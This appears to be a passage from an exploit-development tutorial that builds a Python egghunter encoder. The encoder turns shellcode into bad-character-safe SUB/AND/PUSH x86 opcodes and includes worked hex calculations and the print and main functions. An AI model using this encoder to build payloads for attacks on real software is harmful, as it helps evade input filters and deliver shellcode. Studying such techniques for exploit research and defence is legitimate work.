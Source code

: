 
Below, we will take each block of summands and subtract the values from 0:<br>
0 - 5d555d2e - 5d555d2e - 5d555e2f = <b>e7ffe775</b><br>
0 - 6f5c2d70 - 705c2e70 - 705d2e71 = <b>afea75af</b><br>
0 - 57264531 - 57274531 - 57274531 = <b>fa8b306d</b><br>
0 - 45306c5b - 45306d5b - 45316d5b = <b>306db8ef</b><br>
0 - 2e375341 - 2e375341 - 2f375442 = <b>745a053c</b><br>
0 - 45663754 - 45663855 - 46663855 = <b>2ecd5802</b><br>
0 - 31393f50 - 323a3f50 - 323a3f51 = <b>6a52420f</b><br>
0 - 55672a33 - 55672a33 - 55672a34 = <b>ffca8166</b><br>


It seems as though our egghunter has kept its integrity after the "encoding" process. The results above show the order in which we must push the bytes onto the stack in order for the egghunter to appear as it should in memory. We will demonstrate this concept when we test the egghunter in a real exploit.


### Printing to Console
Our egghunter encoder is almost complete. All that is left for us to do is to print the op codes necessary for pushing our desired egghunter onto the stack. We also need to bear in mind that in some cases, the <b>restricted_partitions()</b> function which returns partitions of our two's complement bytes may not be able to generate any integer partitions compatible with the specified bad characters. In this scenario, we'll check that the <b>generate_summands()</b> function did not return 0. In the case of a 0 return value, we notify the user that the egghunter could not be encoded.

```py
'''
Prints op codes for encoded egghunter. Op codes will push the egghunter onto the stack.
Input: List of summands for each block of the egghunter. Each block pushes one four-byte chunk
of the egghunter onto the stack.
'''
def print_egghunter(summands):
    zero_eax_1 = "\\x25\\x4a\\x4d\\x4e\\x55"
    zero_eax_2 = "\\x25\\x35\\x32\\x31\\x2a"
    push_eax = "\\x50"

    for i in range(len(summands)):
        print("******BLOCK {}*******".format(i))
        print(zero_eax_1)
        print(zero_eax_2)
        for j in range(3):
            print("\\x2d{}".format(summands[i][j]))

        print(push_eax)
```

```py
def main():
    a = check_args(sys.argv[1:])
    egghunter = format_egghunter(a.egghunter,a.tag,a.pad)
    tc_egghunter = reverse_and_split(egghunter)
    good_chars = list(filter_chars(a.bad))
    summands = generate_summands(tc_egghunter, good_chars)
    if (summands):
        print_egghunter(summands)
    else:
        print("[!] Could not encode egghunter. Bad characters too restrictive.")
```
